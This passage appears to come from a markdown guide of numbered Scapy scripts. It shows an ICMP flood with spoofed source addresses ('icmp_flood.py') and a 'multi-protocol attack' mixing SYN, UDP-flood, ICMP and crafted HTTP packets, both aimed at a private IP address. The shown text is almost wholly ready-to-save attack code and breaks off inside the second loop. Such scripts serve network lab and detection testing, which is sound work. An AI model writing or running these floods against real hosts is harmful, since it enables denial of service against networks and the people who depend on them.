 #### 6. ICMP Flood

```python
# save as: icmp_flood.py
from scapy.all import *
import random

target = "192.168.100.1"
iface = "Ethernet"

print("Starting ICMP flood...")

for i in range(1000):
    # Random source IP
    src_ip = f"192.168.{random.randint(1,254)}.{random.randint(1,254)}"
    
    # Create ICMP echo request
    packet = IP(src=src_ip, dst=target)/ICMP()
    send(packet, iface=iface, verbose=0)
    
    if (i+1) % 100 == 0:
        print(f"Sent {i+1} ICMP packets")

print("Done!")
```

#### 7. Multi-Protocol Attack

```python
# save as: multi_attack.py
from scapy.all import *
import random
import time

target = "192.168.100.1"
iface = "Ethernet"

print("Starting multi-protocol attack simulation...")

for i in range(500):
    attack_type = random.randint(1, 4)
    
    if attack_type == 1:
        # TCP SYN
        port = random.randint(1, 1000)
        packet = IP(dst=target)/TCP(dport=port, flags="S")
        print(f"[{i+1}] TCP SYN to port {port}")
    
    elif attack_type == 2:
        # UDP flood
        port = random.randint(1, 65535)
        packet = IP(dst=target)/UDP(dport=port)/Raw(load="X"*100)
        print(f"[{i+1}] UDP to port {port}")
    
    elif attack_type == 3:
        # ICMP ping
        packet = IP(dst=target)/ICMP()
        print(f"[{i+1}] ICMP ping")
    
    else:
        # HTTP request
        http_req = f"GET / HTTP/1.1\r\nHost: {target}\r\n\r\n"
        packet = IP(dst=target)/TCP(dport=80, flags="PA")/Raw(load=http_req)
        print(f"[{i+1}] HTTP request")
    
```